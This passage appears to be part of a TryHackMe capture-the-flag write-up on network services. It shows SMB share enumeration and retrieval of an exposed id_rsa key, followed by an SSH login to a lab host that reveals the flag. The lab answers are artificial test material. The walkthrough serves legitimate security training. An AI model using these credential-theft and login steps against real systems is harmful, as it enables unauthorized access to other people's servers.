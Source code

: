 `John Cactus`

5. What service has been configured to allow him to work from home?

`ssh`

6. Okay! Now we know this, what directory on the share should we look in?

```
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 13:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 13:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available
smb: \.ssh\>
```

`.ssh`

7. This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

`id_rsa`

8. Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

```
kali@kali:~/CTFs/tryhackme/Network Services$ cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
```

```
kali@kali:~/CTFs/tryhackme/Network Services$ ssh -i id_rsa cactus@10.10.78.132
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 21 22:57:37 UTC 2020

  System load:  0.0                Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.78.132
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt 
THM{smb_is_fun_eh?}
cactus@polosmb:~$ 
```